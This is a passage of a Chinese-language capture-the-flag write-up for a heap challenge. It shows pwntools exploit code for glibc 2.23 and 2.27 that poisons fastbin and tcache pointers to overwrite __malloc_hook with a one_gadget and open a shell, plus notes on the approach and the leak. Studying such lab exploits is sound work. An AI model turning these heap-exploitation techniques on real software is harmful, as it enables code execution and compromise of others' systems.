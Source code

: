 ```python

malloc_hook = libc_base + libc.sym['__malloc_hook']
one_gadget = libc_base + 0xf1247

create(2,0x68)
create(3,0x68)
delete(2)
edit(2,p64(malloc_hook-0x23))

create(4,0x68)
create(5,0x68)

edit(5,b'a'*0x13+p64(one_gadget))

#gdb.attach(p)

create(6,0x10)

p.interactive()
```



## heap-2.27
### 思路

glibc2.27，有tcache了，还是一样的程序
思路和2.23差不多,不过要注意tcache的next指针指向的不是chunk头的位置，而是用户内存的位置，此外甚至没有任何保护，比2.23还简单

1. 利用unsorted bin 泄露libc基址
2. 修改释放到tcache的堆块的next指针，使堆分配到`__malloc_hook`附近，覆盖 `__malloc_hook`为one_gadget
3. 执行malloc获取shell

### exp

```python
from pwn import *

context.terminal =['tmux','splitw','-h']
context.log_level = 'debug'

p = process("./heap")
#p = remote("node1.anna.nssctf.cn",28695)

elf = ELF("./heap")
libc = ELF("./libc.so.6")

def create(index,size):
	p.sendlineafter(b">>",b'1')
	p.sendlineafter(b'idx? ',str(index).encode())
	p.sendlineafter(b'size? ',str(size).encode())

def delete(index):
	p.sendlineafter(b">>",b'2')
	p.sendlineafter(b'idx? ',str(index).encode())
	
def show(index):
	p.sendlineafter(b">>",b'3')
	p.sendlineafter(b'idx? ',str(index).encode())
	
def edit(index,content):
	p.sendlineafter(b">>",b'4')
	p.sendlineafter(b'idx? ',str(index).encode())
	p.sendlineafter(b'content : ',content)
```